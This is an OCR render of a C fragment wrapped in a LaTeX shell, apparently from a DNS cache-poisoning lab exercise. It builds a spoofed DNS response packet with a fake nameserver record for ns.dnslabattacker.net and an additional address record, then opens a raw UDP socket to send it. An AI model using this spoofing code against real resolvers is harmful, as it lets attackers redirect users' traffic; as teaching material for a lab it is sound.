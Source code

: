 \documentclass[a4paper,12pt]{article}
\begin{document}
{		    struct datalen * len2=(struct datalen *)(data+length);
		    len2->ttl1=htons(1);
		    len2->ttl2=htons(1);
		    len2->len=htons(23);
		    length+=6;
		    //fake name server
		    // ns.dnslabattacker.net
		    strcpy(data+length,"\2ns\16dnslabattacker\3net");
		    length+=23;
		    //addition 
		    strcpy(data+length,"\2ns\16dnslabattacker\3net");
		    length+=23;
		    struct dataEnd * end3=(struct dataEnd *)(data+length);
		    end3->type=htons(1);
		    end3->class=htons(1);
		    length+=4;
		    struct datalen * len3=(struct datalen *)(data+length);
		    len3->ttl1=htons(1);
		    len3->ttl2=htons(1);
		    len3->len=htons(4);
		    length+=6;
		    strcpy(data+length,"\1\1\1\1");
		    //Root
		    length+=5;
		    struct dataEnd * end4=(struct dataEnd *)(data+length);
		    end4->type=htons(41);
		    end4->class=htons(4096);
		    length+=6;
		    struct dataEnd * end5=(struct dataEnd *)(data+length);
		    end5->type=htons(34816);
		    end5->class=htons(0);
		    
		
		    
		
		
		
		
		
		/////////////////////////////////////////////////////////////////////
		//
		// DNS format, relate to the lab, you need to change them, end
		//
		//////////////////////////////////////////////////////////////////////
		
		
		
		
		
		
		
		
		
		
		/*************************************************************************************
		Construction of the packet is done. 
		now focus on how to do the settings and send the packet we have composed out
		***************************************************************************************/
		    // Source and destination addresses: IP and port
		
		    struct sockaddr_in sin, din;
		
		    int one = 1;
		
		    const int *val = &one;
		
		    srand(time(NULL));
		    dns->query_id=rand(); // transaction ID for the query packet, use random #
		    dns2->query_id=rand();
		
		     
		
		    // Create a raw socket with UDP protocol
		
		    sd = socket(PF_INET, SOCK_RAW, IPPROTO_UDP);
		
}
\end{document}
